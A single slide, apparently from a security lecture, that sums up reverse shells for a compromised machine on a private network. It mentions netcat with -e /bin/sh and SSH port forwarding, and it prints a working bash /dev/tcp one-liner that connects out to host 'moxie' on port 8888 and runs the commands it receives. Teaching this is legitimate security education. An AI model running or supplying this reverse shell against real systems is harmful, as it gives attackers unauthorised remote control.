

# Reverse Shell wrap-up
Penetrated machine on private network, you want control
Bind shell won’t fly
If you have trad nc, you’re done (use -e /bin/sh)
If you have a an ssh acct, forward a port out (not likely; we’ll see why in a few minutes)
If you can inject sh commands and bash sockets are supported

$ exec 5<>/dev/tcp/moxie/8888
$ cat <& 5 | while read line; do $line 2>& 5 >& 5; done